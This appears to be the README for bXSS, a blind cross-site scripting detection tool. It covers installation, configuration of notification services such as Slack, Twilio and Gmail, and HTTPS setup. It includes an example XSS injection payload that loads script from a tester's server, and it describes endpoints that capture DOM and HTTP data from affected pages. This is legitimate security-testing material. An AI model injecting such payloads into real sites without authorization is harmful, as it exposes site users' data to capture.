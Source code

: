 # [bXSS](https://github.com/LewisArdern/bXSS)

<a href="https://codeclimate.com/github/LewisArdern/bXSS/maintainability"><img src="https://api.codeclimate.com/v1/badges/a8e30934a0be1952891c/maintainability" /></a>
<a href="https://lgtm.com/projects/g/LewisArdern/bXSS/context:javascript"><img alt="Language grade: JavaScript" src="https://img.shields.io/lgtm/grade/javascript/g/LewisArdern/bXSS.svg?logo=lgtm&logoWidth=18"/></a>

bXSS is a utility which can be used by bug hunters and organizations to identify [Blind Cross-Site Scripting](https://ardern.io/2017/12/10/blind-xss/).

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

## Necessary

- Server you control
- Usable domain
- Node.js and Express.js

## Optional

- [Gmail](https://gmail.com)
- [Twilio Account](https://www.twilio.com/sms)
- [Slack Token](https://api.slack.com/docs/token-types)
- [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
- [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token)
- [Twitter Developer Account](https://developer.twitter.com/en/apply/user)
- [SSL/TLS Certificate](https://letsencrypt.org)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port.http = Port to run the Node.js app e.g 80
- Rename configExample.js to config.js

## Configuring Services

Services are optional, by default bXSS will save a markdown file to disk. If you don't want to use any service documented below, just delete the service from the config.

- Twilio
  - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
  - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
  - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
  - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
- Slack
  - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
  - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
  - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
- Cisco
  - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
  - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
- Discord
  - Steps to create a bot:
    - Visit https://discordapp.com/developers/applications/
    - Create a new application (e.g bXSSForCompany)
    - Make a note of your CLIENT ID
    - Select 'Bot'
      - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
    - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
    - Select the server you want your bot to join and authorize
    - Update the following values below for the bot to post to the 'text channel' e.g ('general')
  - config.discord.token = 'your bot token'
  - config.discord.channel = 'channel you want it to join, e.g general'
- Twitter
  - config.twitter.consumer_key = API Key
  - config.twitter.consumer_secret = API Secret Key
  - config.twitter.access_token_key = Application Access Token
  - config.twitter.access_token_secret = Application Access Token Secret
  - Permissions (Write)
  - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
- Gmail
  - config.gmail.user = Gmail Username
  - config.gmail.pass = Gmail Password
  - config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
  - config.gmail.from = Who sent the message, usually Gmail Username

## Setting Up HTTPS

Consider using a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv), but if you want to configure HTTPS using express, follow the steps below:

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem
    - config.port.https = 443

## Starting The Application

Once you have configured the above, simply start the server with any available utility at the application root directory:

- node app.js
- nodemon app.js
- pm2 start app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has five core functions to utilize:

- POST - /m (Captures DOM information)
- GET - /m (Loads the payload)
- GET - /mH (Captures HTTP interactions)
- Payloads - /payloads (Gives payloads you can use for testing blind xss)
- Everything else - Loads alert(1)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
